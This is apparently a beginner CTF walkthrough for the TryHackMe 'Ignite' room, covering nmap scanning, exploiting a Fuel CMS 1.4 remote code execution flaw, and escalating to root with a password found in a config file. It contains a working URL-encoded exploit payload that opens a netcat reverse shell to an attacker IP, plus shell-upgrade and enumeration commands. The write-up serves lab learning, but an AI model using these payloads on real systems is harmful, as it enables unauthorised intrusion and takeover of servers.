






# IgniteCTF
A beginner Friendly CTF Ignite Hosted on TryHackme created by DarkStar7471. Which focus on Enumeration and Privilege escalation and Divided it into 2 tasks user Flag and root Flag.

## User Flag
Let's boot up the machine and start simple Nmap Scan
```
nmap -Pn -A -vv -sV -sC -oN normalScan $IP
```
and we found out port 80 HTTP web server is open on the server

By looking into the website we found it is a FUEL Content management system with 1.4 Version



Let's look for available exploits for Fuel cms on google.and we found RCE CVE-2018-16763. https://www.exploit-db.com/exploits/47138



let's visit https://www.revshells.com/ and Put IP and PORT For reverse shell mine IP:10.8.244.200 and PORT:1234.
and select "nc mkfifo" and copy code. then visit https://gchq.github.io/CyberChef/ and paste the code and use URL Encode and select encode all special characters.
copy output.





replace output with urllib.quote(xxxx) from this

```
http://IP/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27
```
to
```
http://IP/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20%2Di%202%3E%261%7Cnc%2010%2E8%2E244%2E200%201234%20%3E%2Ftmp%2Ff%27%29%2b%27
```
this

start Netcat listener on your system
```
nc -nlvp 1234
```
and hit our payload you should get the shell
run 
```
cat /home/www-data/flag.txt
```
for user flag
now run 
```
which python
```
to get to know if python is installed or not
```
python -c "import pty;pty.spawn('/bin/bash')"
```
then press ctrl + z and run on our machine
```
stty raw -echo;fg
```
for interactive shell



## Root Flag

move linpeas.sh from attacker machine to Fuel Machine and run it for enumeration
start a python HTTP server on an attacker And use wget to get linpeas.sh and execute it 
nothing much found 
but in one of config file 
```
/var/www/html/fuel/application/config/database.php
```
we got root password 
run
```
su root
and password 
cat /root/root.txt
```
we got root flag



I hope this walkthrough was helpful thank you so much for reading it 

Happy Hacking ! ❤